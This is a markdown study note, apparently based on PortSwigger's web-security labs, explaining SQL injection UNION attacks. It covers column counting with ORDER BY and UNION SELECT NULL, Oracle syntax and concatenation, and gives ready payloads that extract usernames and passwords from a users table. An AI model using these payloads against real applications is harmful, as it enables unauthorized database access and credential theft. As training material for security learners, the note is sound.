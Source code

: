 # SQL injection UNION attacks

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

## Table of Content

- [theory](#theory)
- [Determining the number of columns required](#determining-the-number-of-columns-required)
    - [First method](#first-method)
    - [Seconde method](#seconde-method)
- [Database specific syntax](#database-specific-syntax)
- [Using a SQL injection UNION attack to retrieve interesting data](#using-a-sql-injection-union-attack-to-retrieve-interesting-data)
- [Retrieving multiple values within a single column](#retrieving-multiple-values-within-a-single-column)

## Theory:

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query returns a single result set with two columns, containing values from columns a and b in table1 and columns c and d in table2.

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

How many columns are being returned from the original query ?

Which columns returned from the original query are of a suitable data type to hold the results from the injected query ?

## Determining the number of columns required

2 options exist to determine it:

#### First method:

One method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
-- etc.
```

URL example:

`https://test.net?category=Accessories' ORDER BY 1--` -> increment `1` with [burp brutforce](/tools/burpsuite/brutforce.md) till the webpage return an error

response can be:

- error http
- generic error response
- no result 

#### Seconde method

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

If the number of nulls does not match the number of columns, the database returns an error, such as:

All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

As with the ORDER BY technique, the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results. When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. 

URL example:

`https://test.net?category=Accessories' UNION SELECT NULL,NULL --`... till it doesnt return an error

### Database specific syntax

On Oracle, every SELECT query must use the FROM keyword and specify a valid table.

`' UNION SELECT NULL FROM DUAL--`

## Using a SQL injection UNION attack to retrieve interesting data

Require: 

- [Determining the number of columns](#determining-the-number-of-columns-required)
- [Finding columns with a useful data type](#finding-columns-with-a-useful-data-type)

Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the users table by submitting the input:

`' UNION SELECT username, password FROM users--`

In order to perform this attack, you need to know that there is a table called users with two columns called username and password. Without this information, you would have to guess the names of the tables and columns. All modern databases provide ways to examine the database structure, and determine what tables and columns they contain.

solve:

`?Accessories' UNION SELECT username, password FROM users --`

## Retrieving multiple values within a single column

if there is a single column you can't concat values before sending to the single column: 

to see all syntax for [string concate](/)

String concatenation

SQL | format
--- | ---
Oracle | `'foo'\|\|'bar'`
Microsoft | `'foo'+'bar'`
PostgreSQL | `'foo'\|\|'bar'`
MySQL | `'foo' 'bar'` OR `CONCAT('foo','bar')`

For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

Example :

union as 2 column : unknow type | string

`?Accessories' UNION SELECT NULL, username||'~'||password FROM users--`

### Documentation

- [portswigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks)
